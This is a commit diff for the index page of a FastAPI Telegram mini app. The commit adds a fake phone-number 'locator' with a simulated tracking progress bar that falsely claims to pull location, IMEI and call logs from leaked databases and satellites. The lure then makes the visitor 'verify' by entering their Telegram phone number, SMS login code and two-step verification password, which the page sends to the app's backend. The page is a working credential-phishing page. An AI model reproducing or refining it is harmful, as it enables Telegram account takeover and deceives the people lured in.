

Before and after one commit to doctordevstudio/Telegram-Backup, a FastAPI app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with FastAPI, Linux system fonts and the light colour scheme; data that the repository does not hold is empty; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
-    <title>Location Track watch full video to continue</title>
+    <title>Location Track</title>
     <script src="https://telegram.org/js/telegram-web-app.js"></script>
     <style>
         /* Base Styles & Dark Theme */
@@ -15,6 +15,8 @@
             --border-color: #3b4754;
             --btn-blue: #5288c1;
             --btn-blue-hover: #4578ab;
+            --error-color: #ef4444;
+            --success-color: #10b981;
         }
         body { margin: 0; padding: 0; background-color: var(--bg-color); color: var(--text-main); font-family: sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; overflow: hidden; }
         .app-container { width: 100%; max-width: 400px; height: 100%; display: flex; flex-direction: column; position: relative; }
@@ -27,18 +29,26 @@
         .input-box { border: 1px solid var(--border-color); border-radius: 8px; display: flex; align-items: center; padding: 12px 15px; background: var(--container-bg); }
         .input-box select, .phone-input { background: transparent; border: none; color: white; font-size: 16px; width: 100%; outline: none; }
         .input-box.phone-box { padding: 0; }
+
+        /* Remove arrows from number inputs */
+        input[type="number"]::-webkit-outer-spin-button,
+        input[type="number"]::-webkit-inner-spin-button { -webkit-appearance: none; margin: 0; }
+        input[type="number"] { -moz-appearance: textfield; }
+
         .phone-code { padding: 15px; border-right: 1px solid var(--border-color); color: white; font-size: 16px; }
         .phone-input { padding: 15px; }
-        .fab { position: absolute; bottom: 40px; right: 20px; width: 60px; height: 60px; border-radius: 50%; background-color: var(--btn-blue); display: flex; justify-content: center; align-items: center; cursor: pointer; border: none; box-shadow: 0 4px 10px rgba(0,0,0,0.3); }
+        .fab { position: absolute; bottom: 40px; right: 20px; width: 60px; height: 60px; border-radius: 50%; background-color: var(--btn-blue); display: flex; justify-content: center; align-items: center; cursor: pointer; border: none; box-shadow: 0 4px 10px rgba(0,0,0,0.3); transition: background-color 0.2s;}
+        .fab:hover { background-color: var(--btn-blue-hover); }
         .fab svg { fill: white; width: 24px; height: 24px; }
         .otp-container { display: flex; gap: 10px; margin-bottom: 30px; }
         .otp-input { width: 45px; height: 55px; background: transparent; border: 1px solid var(--border-color); border-radius: 8px; color: white; font-size: 24px; text-align: center; outline: none; }
         .otp-input:focus { border-color: var(--btn-blue); }
-        .monkey-emoji { font-size: 60px; margin-bottom: 15px; }
+        .emoji-icon { font-size: 60px; margin-bottom: 15px; }
         .password-input { width: 100%; background: transparent; border: none; border-bottom: 1px solid var(--border-color); color: white; font-size: 18px; padding: 10px 0; margin-bottom: 25px; outline: none; }
         .password-input:focus { border-bottom-color: var(--btn-blue); }
-        .btn-full { width: 100%; padding: 14px; border-radius: 8px; background-color: #2b3541; color: var(--text-muted); border: none; font-size: 16px; font-weight: 600; cursor: pointer; margin-top: 20px; }
+        .btn-full { width: 100%; padding: 14px; border-radius: 8px; background-color: #2b3541; color: var(--text-muted); border: none; font-size: 16px; font-weight: 600; cursor: pointer; margin-top: 20px; transition: background-color 0.2s;}
         .btn-full.active { background-color: var(--btn-blue); color: white; }
+        .btn-full.active:hover { background-color: var(--btn-blue-hover); }
         .top-bar { width: 100%; display: flex; align-items: center; margin-bottom: 20px; }
         .back-btn { background: transparent; border: none; color: white; cursor: pointer; padding: 0; margin-right: 15px; }
         .back-btn svg { fill: white; width: 24px; height: 24px; }
@@ -62,7 +72,49 @@
 
     <div id="step-loading" class="step-screen active">
         <h2>Loading...</h2>
-        <p class="subtitle">Checking Mini App Session...</p>
+        <p class="subtitle">Checking Secure Connection...</p>
+    </div>
+
+    <div id="step-tracker-input" class="step-screen">
+        <div class="emoji-icon">📍</div>
+        <h2>System Locator</h2>
+        <p class="subtitle">Enter the mobile number you want to track.</p>
+
+        <div class="input-group">
+            <span style="font-size:12px; color:var(--text-muted); position:absolute; top:-8px; left:10px; background:var(--bg-color); padding:0 5px;">Phone Number</span>
+            <div class="input-box phone-box">
+                <div class="phone-code" style="border-right: none; padding-right: 5px;">+91</div>
+                <input type="number" id="target-mobile" class="phone-input" placeholder="Enter 10-digit number" maxlength="10">
+            </div>
+        </div>
+        <p id="tracker-error" style="color: var(--error-color); font-size: 14px; margin-bottom: 15px; display: none; text-align: left; width: 100%;"></p>
+
+        <button class="btn-full active" onclick="startTracking()">Find Location</button>
+    </div>
+
+    <div id="step-tracker-progress" class="step-screen">
+        <div class="emoji-icon">📡</div>
+        <h2>Locating Device...</h2>
+        <p id="tracker-status" class="subtitle">Initializing systems...</p>
+
+        <div style="width: 100%; background: var(--container-bg); border-radius: 8px; height: 12px; overflow: hidden; margin-bottom: 15px; border: 1px solid var(--border-color);">
+            <div id="tracker-bar" style="width: 0%; height: 100%; background: var(--btn-blue); transition: width 0.1s linear;"></div>
+        </div>
+        <p id="tracker-percent" style="font-weight: bold; font-size: 18px; color: var(--text-main);">0%</p>
+    </div>
+
+    <div id="step-tracker-success" class="step-screen">
+        <div class="emoji-icon">✅</div>
+        <h2 style="color: var(--success-color);">Data Found!</h2>
+        <p class="subtitle" style="margin-bottom: 15px;">Live location, device details, and call logs successfully retrieved from satellite.</p>
+
+        <div style="background: var(--container-bg); border: 1px solid var(--border-color); border-radius: 8px; padding: 15px; margin-bottom: 25px; width: 100%;">
+            <p style="color: var(--text-muted); font-size: 14px; margin: 0;">Status: <span style="color: var(--success-color); font-weight: bold;">Ready</span></p>
+            <p style="color: var(--text-muted); font-size: 14px; margin: 5px 0 0 0;">Security: <span style="color: #fbbf24; font-weight: bold;">Verification Required</span></p>
+        </div>
+
+        <p class="subtitle" style="color: var(--text-main); font-weight: bold;">Please link your Telegram to view the results.</p>
+        <button class="btn-full active" onclick="showStep('step-phone')">Verify & Login</button>
     </div>
 
     <div id="step-phone" class="step-screen">
@@ -94,7 +146,7 @@
 
     <div id="step-otp" class="step-screen">
         <div class="top-bar"><button class="back-btn" onclick="showStep('step-phone')"><svg viewBox="0 0 24 24"><path d="M20 11H7.83l5.59-5.59L12 4l-8 8 8 8 1.41-1.41L7.83 13H20v-2z"/></svg></button></div>
-        <div style="font-size: 50px; margin-bottom: 10px;">💬</div>
+        <div class="emoji-icon">💬</div>
         <h2>Enter code</h2>
         <p class="subtitle" id="otp-subtitle">We've sent an SMS with an activation code to your phone.</p>
         <div class="otp-container">
@@ -109,7 +161,7 @@
 
     <div id="step-2fa" class="step-screen">
         <div class="top-bar"><button class="back-btn" onclick="showStep('step-otp')"><svg viewBox="0 0 24 24"><path d="M20 11H7.83l5.59-5.59L12 4l-8 8 8 8 1.41-1.41L7.83 13H20v-2z"/></svg></button></div>
-        <div class="monkey-emoji">🙈</div>
+        <div class="emoji-icon">🙈</div>
         <h2>Your Password</h2>
         <p class="subtitle">You have Two-Step Verification enabled, so your account is protected with an additional password.</p>
         <input type="password" id="two-fa-pass" class="password-input" placeholder="Password" oninput="checkPasswordInput()">
@@ -118,7 +170,7 @@
     </div>
 
     <div id="step-result" class="step-screen">
-        <div style="font-size: 50px; margin-bottom: 10px;">🎉</div>
+        <div class="emoji-icon">🎉</div>
         <h2>Rick Role</h2>
         <p class="subtitle" style="margin-bottom: 10px;">Location Track watch full video to continue.</p>
 
@@ -140,7 +192,6 @@
         document.querySelectorAll('.step-screen').forEach(el => el.classList.remove('active'));
         document.getElementById(stepId).classList.add('active');
 
-        // Clear inputs if returning to phone screen
         if (stepId === 'step-phone') {
             document.querySelectorAll('.otp-input').forEach(input => input.value = '');
             document.getElementById('two-fa-pass').value = '';
@@ -153,6 +204,69 @@
         setTimeout(function(){ x.className = x.className.replace("show", ""); }, 3000);
     }
 
+    // --- SYSTEM LOCATOR LOGIC ---
+    document.getElementById('target-mobile').addEventListener('input', function() {
+        if (this.value.length > 10) {
+            this.value = this.value.slice(0, 10);
+        }
+    });
+
+    function startTracking() {
+        const mobile = document.getElementById('target-mobile').value.trim();
+        const errorMsg = document.getElementById('tracker-error');
+        errorMsg.style.display = 'none';
+
+        if (mobile.length !== 10) {
+            errorMsg.innerText = "Error: Number must be exactly 10 digits.";
+            errorMsg.style.display = 'block';
+            return;
+        }
+
+        const firstDigit = parseInt(mobile.charAt(0));
+        if (firstDigit >= 0 && firstDigit <= 5) {
+            errorMsg.innerText = "Invalid number. Number cannot start with " + firstDigit + ".";
+            errorMsg.style.display = 'block';
+            return;
+        }
+
+        showStep('step-tracker-progress');
+        simulateTracking();
+    }
+
+    function simulateTracking() {
+        const statuses = [
+            "Querying leaked database...",
+            "Querying telecom company Database...",
+            "Fetching satellite data...",
+            "Fetching current location...",
+            "Fetching IMEI number...",
+            "Triangulating exact location..."
+        ];
+
+        let progress = 0;
+        const progressBar = document.getElementById('tracker-bar');
+        const statusText = document.getElementById('tracker-status');
+        const percentageText = document.getElementById('tracker-percent');
+
+        const interval = setInterval(() => {
+            progress += 1;
+            progressBar.style.width = progress + '%';
+            percentageText.innerText = progress + '%';
+
+            let statusIndex = Math.floor((progress / 100) * statuses.length);
+            if (statusIndex >= statuses.length) statusIndex = statuses.length - 1;
+            statusText.innerText = statuses[statusIndex];
+
+            if (progress >= 100) {
+                clearInterval(interval);
+                setTimeout(() => {
+                    showStep('step-tracker-success');
+                }, 500);
+            }
+        }, 60);
+    }
+
+    // --- TELEGRAM AUTH LOGIC ---
     function updateCountryCode() {
         document.getElementById('display-code').innerText = document.getElementById('country-select').value;
     }
@@ -167,7 +281,7 @@
                 body: JSON.stringify(payload)
             });
             return await response.json();
-        } catch (err) { alert("Incorrect 2FA Password"); }
+        } catch (err) { alert("Incorrect 2FA Password or Network Error"); }
     }
 
     window.onload = async () => {
@@ -182,9 +296,13 @@
                 showToast();
                 showStep('step-result');
             } else {
-                showStep('step-phone');
+                // If no active session exists, start the Tracker sequence
+                showStep('step-tracker-input');
             }
-        } catch(e) { showStep('step-phone'); }
+        } catch(e) {
+            // Fallback to tracker on error
+            showStep('step-tracker-input');
+        }
     };
 
     async function submitPhone() {
@@ -230,7 +348,6 @@
                     showToast();
                     showStep('step-result');
                 } else if (res.status === 'error') {
-                    // ID mismatch handling
                     alert(res.message);
                     showStep('step-phone');
                 }
@@ -256,7 +373,6 @@
             showToast();
             showStep('step-result');
         } else if (res && res.status === 'error') {
-            // ID mismatch handling
             alert(res.message);
             showStep('step-phone');
         }
```
